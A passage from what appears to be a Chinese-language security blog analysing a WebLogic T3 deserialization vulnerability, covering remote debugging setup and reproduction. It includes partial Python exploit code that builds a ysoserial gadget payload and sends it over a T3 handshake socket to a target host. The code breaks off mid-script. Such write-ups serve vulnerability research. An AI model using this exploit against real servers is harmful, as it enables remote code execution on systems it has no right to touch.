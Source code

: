 ### <a class="reference-link" name="%E8%BF%9C%E7%A8%8B%E8%B0%83%E8%AF%95"></a>远程调试

在这里将jar包复制到物理机上，然后打开IDEA创建一个空项目进行导入。

[![](https://p3.ssl.qhimg.com/t018982b678106d35eb.png)](https://p3.ssl.qhimg.com/t018982b678106d35eb.png)

完成后就来配置远程调试

[![](https://p3.ssl.qhimg.com/t011d07e61378bf1e7b.png)](https://p3.ssl.qhimg.com/t011d07e61378bf1e7b.png)

为了测试，这里使用WeblogicScan来扫描一下，看看在断点地方会不会停下。

[![](https://p0.ssl.qhimg.com/t010710f8fd4851a780.png)](https://p0.ssl.qhimg.com/t010710f8fd4851a780.png)

[![](https://p3.ssl.qhimg.com/t010bafca14eb5cd14f.png)](https://p3.ssl.qhimg.com/t010bafca14eb5cd14f.png)

在这里发现已经可以进行远程调试，后面我们就可以来分析漏洞了。



## 0x03 漏洞分析

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0"></a>漏洞复现

在这先来讲漏洞复现一下后，再进行漏洞的分析

还是拿exp为例子，但是我们这里是docker搭建的环境，也没有构造回显。常用的弹出计算器，就算执行了也没法显示出来，所以在这里使用创建文件的方式验证该漏洞是否利用成功。

```
import socket
import sys
import struct
import re
import subprocess
import binascii

def get_payload1(gadget, command):
    JAR_FILE = './ysoserial.jar'
    popen = subprocess.Popen(['java', '-jar', JAR_FILE, gadget, command], stdout=subprocess.PIPE)
    return popen.stdout.read()

def get_payload2(path):
    with open(path, "rb") as f:
        return f.read()

def exp(host, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n".encode()
    sock.sendall(handshake)
    data = sock.recv(1024)
    pattern = re.compile(r"HELO:(.*).false")
    version = re.findall(pattern, data.decode())
    if len(version) == 0:
        print("Not Weblogic")
        return

    print("Weblogic `{``}`".format(version[0]))
    data_len = binascii.a2b_hex(b"00000000") #数据包长度，先占位，后面会根据实际情况重新
```